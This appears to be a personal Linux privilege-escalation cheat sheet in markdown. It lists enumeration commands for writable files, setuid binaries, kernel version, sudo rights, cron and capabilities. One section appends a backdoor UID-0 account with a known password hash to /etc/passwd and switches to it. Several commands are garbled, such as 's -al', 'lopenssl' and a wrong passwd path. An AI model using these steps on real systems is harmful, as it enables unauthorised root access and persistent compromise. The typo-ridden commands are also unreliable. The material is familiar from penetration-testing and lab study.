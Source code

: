 #Linux PrivEsc
## Find interesting files
`find / -writable -type f 2>/dev/null`  #Writable files\
`find / -writable -type d 2>/dev/null` #Writable directories\
`find / -perm -u=s -type f 2>/dev/null` #Setuid executables

## Passwd file writable?
s -al /var/etc/passwd \
lopenssl passwd w00t\
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd\
su root2

## OS information --> kernel exploit?
hostname\
cat /etc/issue\
cat /etc/os-release\
uname -a

## Envirionment variables
env 

## Sudo privileges
sudo -l 

## Running services
ps -aux (evt met watch) 

## Cron
grep "CRON"  /var/log/syslog\

 ## Possible overprived services/applicaitons\
/usr/sbin/getcap -r / 2>/dev/null 

